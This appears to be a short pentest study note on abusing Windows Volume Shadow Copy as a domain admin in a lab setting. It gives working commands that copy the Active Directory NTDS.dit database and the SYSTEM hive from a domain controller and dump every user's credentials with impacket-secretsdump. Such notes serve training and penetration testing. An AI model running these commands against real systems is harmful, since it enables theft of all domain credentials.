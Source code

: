 # Shadow Copies

A **Shadow Copy,** also known as **Volume Shadow Service (VSS)** is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.

To manage volume shadow copies, the Microsoft signed binary **vshadow.exe i**s offered as part of the Windows SDK.

As domain admins, we have the ability to abuse the **vshadow** utility to create a Shadow Copy that will allow us to extract the Active Directory Database **NTDS.dit** database file. Once we've obtained a copy of said database, we can extract every user credential offline on our local Kali machine.

To start off, we'll connect as the jeffadmin domain admin user to the DC1 domain controller and launch from an elevated prompt the vshadow utility with **-nw** options to disable writers which speeds up backup creation and include the **-p** option to store the copy on disk.

```
vshadow.exe -nw -p  C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

reg.exe save hklm\system c:\system.bak

impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

